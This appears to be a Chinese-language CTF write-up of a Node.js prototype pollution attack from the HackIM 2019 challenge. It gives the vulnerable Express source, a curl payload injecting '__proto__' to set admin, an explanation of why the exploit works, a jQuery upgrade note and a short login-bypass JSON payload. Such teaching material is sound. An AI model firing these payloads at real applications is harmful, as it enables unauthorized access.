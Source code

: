 ```
 
app.use('/', express.static(path.join(__dirname, 'views')));
app.post('/signup', (req, res) => {
    var body = JSON.parse(JSON.stringify(req.body));
    var copybody = clone(body)
    if (copybody.name) {
        res.cookie('name', copybody.name).json({
            "done": "cookie set"
        });
    } else {
        res.json({
            "error": "cookie not set"
        })
    }
});
app.get('/getFlag', (req, res) => {
    var аdmin = JSON.parse(JSON.stringify(req.cookies))
    if (admin.аdmin == 1) {
        res.send("hackim19{}");
    } else {
        res.send("You are not authorized");
    }
});
app.listen(PORT, HOST);
console.log(`Running on http://${HOST}:${PORT}`);
```

payload
```
curl -vv --header 'Content-type: application/json' -d '{"__proto__": {"admin": 1}}' 'http://0.0.0.0:4000/signup'; 

curl -vv 'http://0.0.0.0:4000/getFlag'
```
首先请求 /signup 接口，在 NodeJS 服务中，我们调用了有漏洞的 merge 方法，并通过 \_\_proto\_\_ 为 Object.prototype（因为 {}.\_\_proto\_\_ === Object.prototype） 添加上一个新的属性 admin，且值为 1。

再次请求 getFlag 接口，条件语句 admin.аdmin == 1 为 true，服务被攻击。

攻击案例出自：Prototype pollution attacks in NodeJS applications

这样的漏洞在 jQuery $.extend 中也经常见到
对于 jQuery：如果担心安全问题，建议升级至最新版本 jQuery 3.4.0，如果还在使用 jQuery 的 1.x 和 2.x 版本，那么你的应用程序和网站仍有可能遭受攻击。


#### 登录绕过题
{"user":[0],"passwd":[0]}
